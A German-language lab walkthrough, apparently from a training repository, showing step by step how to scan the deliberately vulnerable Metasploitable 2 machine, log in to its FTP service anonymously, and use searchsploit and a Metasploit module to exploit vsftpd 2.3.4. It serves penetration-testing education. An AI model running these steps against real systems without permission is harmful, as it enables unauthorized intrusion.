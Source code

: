 # FTP

## Nmap-Scan

Als erstes sollte ein Nmap-Scan durchgeführt werden, um zu sehen, ob der Metasploitable 2 Server FTP hat:

``` bash
nmap -sV -sC <IP-Adresse>
```

![Bild01.jpg](/images/Metaspolitable-2/FTP/Bild01.jpg)

## FTP-Server-Verbindung

Um sich mit dem FTP-Server zu verbinden, kann man den folgenden Code verwenden. Man kann sich mit Anonymous ohne Passwort anmelden, wie im Nmap-Scan zu sehen ist:

``` bash
ftp <IP-Adresse>
```

![Bild02.jpg](/images/Metaspolitable-2/FTP/Bild02.jpg)

## Bash-Exploit-Suche

Um zu kontrollieren, ob es einen Exploit gibt, kann man den folgenden Befehl ausführen:

``` bash
searchsploit vsftpd 2.3.4
```

![Bild03.jpg](/images/Metaspolitable-2/FTP/Bild03.jpg)

## Starten der Metasploit-Konsole

Wenn man einen Exploit gefunden hat, der mit Metasploit funktioniert, kann man das Metasploit-Tool verwenden, um den Exploit zu starten. Dafür muss man zuerst die Metasploit-Konsole starten:

``` bash
msfconsole
```

![Bild04.jpg](/images/Metaspolitable-2/FTP/Bild04.jpg)

## Suche nach dem Exploit in der Metasploit-Konsole

Nachdem die Konsole gestartet wurde, muss man noch einmal nach dem Exploit suchen:

``` bash
search vsftpd 2.3.4
```

![Bild05.jpg](/images/Metaspolitable-2/FTP/Bild05.jpg)

## Auswahl des Exploits

Um den Exploit auszuwählen, gibt man den folgenden Befehl ein (0 = die Nummer des Exploits in der Liste):

``` bash
use 0
```

![Bild06.jpg](/images/Metaspolitable-2/FTP/Bild06.jpg)

## Anzeigen von Optionen

Mit dem folgenden Befehl kann man sich die zu konfigurierenden Optionen anzeigen lassen:

``` bash
show options
```

![Bild07.jpg](/images/Metaspolitable-2/FTP/Bild07.jpg)

## Optionen setzen

Danach kann man mit dem folgenden Befehl die Option setzen:

``` bash
set RHOSTS <IP-Adresse>
```

![Bild08.jpg](/images/Metaspolitable-2/FTP/Bild08.jpg)

## Starten des Exploits

Zum Schluss muss man mit dem folgenden Befehl den Exploit starten:

``` bash
run
```

![Bild09.jpg](/images/Metaspolitable-2/FTP/Bild09.jpg)

